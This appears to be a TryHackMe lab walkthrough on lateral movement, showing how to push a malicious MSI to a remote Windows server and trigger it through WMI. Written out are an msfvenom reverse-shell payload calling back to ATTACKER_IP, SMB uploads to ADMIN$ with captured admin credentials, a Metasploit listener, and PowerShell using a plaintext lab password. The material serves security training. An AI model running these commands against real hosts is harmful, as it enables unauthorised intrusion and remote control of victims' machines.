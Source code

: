 #### Installing MSI packages through WMI
Connect to the `JumpBox` using the credentials you have gathered via `ssh`:
```cmd
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

**For this exercise, we will assume we have already captured some credentials with administrative access.**
1. **Create a reverse shell**
	```bash
	msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o installer.msi
	```

2. Use acquired credentials to upload the payload to the ADMIN$ using `smbclient`
```bash
smbclient -c 'put installer.msi' -U <admin-username> -W ZA '//thmiis.za.tryhackme.com/admin$/' <admin-password> 

# Another way of doing it
smbclient '//thmiis.za.tryhackme.com/admin$' -U AA\\<admin-username>%<admin-password> -c 'put installer.msi'
```
- `-c:` run a specific command after connecting.
- `put myservice.exe:` put uploads a file to the remote system.
- `-U:` username
- `-W ZA:` Domain name `za`

3. Once the executable is uploaded, set up a listener
```bash
use exploit/multi/handler
set lhost <IP>
set lport 4444
set payload windows/shell/reverse_tcp
run
```

4. **Start a WMI session against the IIS server from a PowerShell console (From `jumpBox`)**
```powershell
$username = 't1_corine.waters'; 
$password = 'Korine.1994'; 
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; 
$Opt = New-CimSessionOption -Protocol DCOM 
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

5. **Invoke the install method from the Win32_Product class to trigger the payload**
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\installer.msi"; Options = ""; AllUsers = $false}
```

**Once you have started the service, you should receive a connection on your first listener.**
